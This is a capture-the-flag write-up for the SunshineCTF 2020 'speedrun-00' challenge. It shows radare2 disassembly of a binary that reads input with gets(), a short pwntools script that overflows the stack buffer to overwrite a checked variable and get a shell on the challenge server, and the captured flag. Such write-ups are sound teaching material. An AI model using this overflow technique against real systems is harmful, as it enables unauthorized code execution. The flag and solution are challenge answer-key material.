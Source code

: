 # speedrun-00

## Task

nc chal.2020.sunshinectf.org 30000

File: chal_00

Tag: binary exploitation

## Solution

We use `radare2` to look at the file. We can see that `system` is called somewhere.

```nasm
[0x000005c0]> afl
0x000005c0    1 42           entry0
0x000005f0    4 50   -> 40   sym.deregister_tm_clones
0x00000630    4 66   -> 57   sym.register_tm_clones
0x00000680    5 58   -> 51   sym.__do_global_dtors_aux
0x000006c0    1 10           entry.init0
0x00000790    1 2            sym.__libc_csu_fini
0x00000794    1 9            sym._fini
0x00000720    4 101          sym.__libc_csu_init
0x000006ca    5 82           main
0x00000558    3 23           sym._init
0x00000580    1 6            sym.imp.puts
0x00000590    1 6            sym.imp.system
0x00000000    6 292  -> 318  loc.imp._ITM_deregisterTMCloneTable
0x000005a0    1 6            sym.imp.gets
[0x000005c0]> pdf @ main
            ; DATA XREF from entry0 @ 0x5dd
┌ 82: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x40
│           ; var uint32_t var_8h @ rbp-0x8
│           ; var uint32_t var_4h @ rbp-0x4
│           0x000006ca      55             push rbp
│           0x000006cb      4889e5         mov rbp, rsp
│           0x000006ce      4883ec40       sub rsp, 0x40
│           0x000006d2      488d3dcb0000.  lea rdi, str.This_is_the_only_one ; 0x7a4 ; "This is the only one" ; const char *s
│           0x000006d9      e8a2feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x000006de      488d45c0       lea rax, [s]
│           0x000006e2      4889c7         mov rdi, rax                ; char *s
│           0x000006e5      b800000000     mov eax, 0
│           0x000006ea      e8b1feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x000006ef      817dfcdecafa.  cmp dword [var_4h], 0xfacade
│       ┌─< 0x000006f6      750c           jne 0x704
│       │   0x000006f8      488d3dba0000.  lea rdi, str.bin_sh         ; 0x7b9 ; "/bin/sh" ; const char *string
│       │   0x000006ff      e88cfeffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from main @ 0x6f6
│       └─> 0x00000704      817df8decafa.  cmp dword [var_8h], 0xfacade
│       ┌─< 0x0000070b      750c           jne 0x719
│       │   0x0000070d      488d3da50000.  lea rdi, str.bin_sh         ; 0x7b9 ; "/bin/sh" ; const char *string
│       │   0x00000714      e877feffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from main @ 0x70b
│       └─> 0x00000719      90             nop
│           0x0000071a      c9             leave
└           0x0000071b      c3             ret
```

We have a stack of size `0x40` and can input bytes via `gets` to `rbp-0x40`. After that there is a comparison of `0xfacade` with `rbp-0x4`. If they are equal `system` is called with `/bin/sh`.

So we have to write `0x40 - 0x4` bytes of padding and then `0xfacade`.

We write this little script:

```python
from pwn import *

payload  = 'A' * 60
payload += '\xde\xca\xfa'

p = remote('chal.2020.sunshinectf.org', 30000)
#p = process("./chall_00")

p.sendline(payload)
p.interactive()
```

And get our shell:

```bash
$ python chall00.py
[+] Opening connection to chal.2020.sunshinectf.org on port 30000: Done
[*] Switching to interactive mode
This is the only one
$ ls
chall_00
flag.txt
$ cat flag.txt
sun{burn-it-down-6208bbc96c9ffce4}
```
